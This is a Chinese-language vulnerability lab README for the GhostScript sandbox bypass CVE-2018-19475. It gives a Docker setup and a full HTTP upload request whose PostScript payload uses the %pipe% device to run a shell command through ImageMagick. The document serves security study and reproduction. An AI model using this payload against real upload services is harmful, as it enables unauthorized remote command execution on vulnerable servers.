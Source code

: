 # GhostScript 沙箱绕过（命令执行）漏洞（CVE-2018-19475）

2018年底来自Semmle Security Research Team的Man Yue Mo发表了CVE-2018-16509漏洞的变体CVE-2018-19475，可以通过一个恶意图片绕过GhostScript的沙盒，进而在9.26以前版本的gs中执行任意命令。

参考链接：

- https://blog.semmle.com/ghostscript-CVE-2018-19475/
- https://bugs.ghostscript.com/show_bug.cgi?id=700153

## 漏洞环境

执行如下命令启动漏洞环境（其中包括 GhostScript 9.25、ImageMagick 7.0.8-20）：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080`将可以看到一个上传组件。

## 漏洞复现

将POC作为图片上传，执行命令`id > /tmp/success && cat /tmp/success`：

```
POST /index.php HTTP/1.1
Host: target
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryukZmnyhO
Content-Length: 279

------WebKitFormBoundaryukZmnyhO
Content-Disposition: form-data; name="file_upload"; filename="1.jpg"
content-Type="image/png"

%!PS
0 1 300367 {} for
{save restore} stopped {} if
(%pipe%id > /tmp/success && cat /tmp/success) (w) file
------WebKitFormBoundaryukZmnyhO--

```

命令已成功执行：

![](1.png)

当然，真实环境下通常无法直接回显漏洞执行结果，你需要使用带外攻击的方式来检测漏洞。
